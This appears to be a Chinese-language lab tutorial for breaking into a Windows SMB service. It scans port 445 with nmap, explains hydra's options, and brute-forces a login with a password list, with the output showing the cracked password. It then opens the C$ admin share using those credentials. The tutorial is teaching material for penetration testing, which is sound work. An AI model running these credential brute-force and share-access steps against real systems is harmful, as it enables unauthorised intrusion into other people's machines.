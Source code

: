 使用 nmap 扫描 SMB 服务端口 445

```
┌──(root㉿Kali-24)-[~]
└─# nmap 192.168.1.71 -p 445
```

> 445 端口需要开启

打开 hydra ,查看参数

```
┌──(root㉿Kali-24)-[~]
└─# hydra
```

| 操作    | 描述                                                    |
| ------- | ------------------------------------------------------- |
| -I      | 指定单个用户名称                                        |
| -L      | 指定用户名称字典                                        |
| -p      | 指定单个密码                                            |
| -P      | 指定密码字典                                            |
| -S      | 指定端口                                                |
| -vV     | 显示详细的执行过程                                      |
| -t `16` | 指定线程数（默认 16个，线程数过多容易出现错误）         |
| -e nsr  | n（空密码）s（用户名作为密码）r（将用户名反转作为密码） |

使用 hydra 爆破 445端口（协议://IP）

```
┌──(root㉿Kali-24)-[~]
└─# hydra -l hello -P hello.txt smb://192.168.1.71 -vV
```

```
[445][smb] host: 192.168.1.71   login: hello   password: hello
```

> 得到密码 hello

在其它主机的运行窗口执行

```
\\192.168.1.71\c$
```

> 输入用户名和密码登录即可

**Windows 10**

切换至 Administrator 并设置密码

> windows 10 默认 smb 版本为 smb v2，smb 版本发展至今有 smb v1 v2 v3 版本，hydra 工具默认支持 smb v1，如果需要爆破 windows 10 的 smb 服务则需要下载源码进行编译安装。
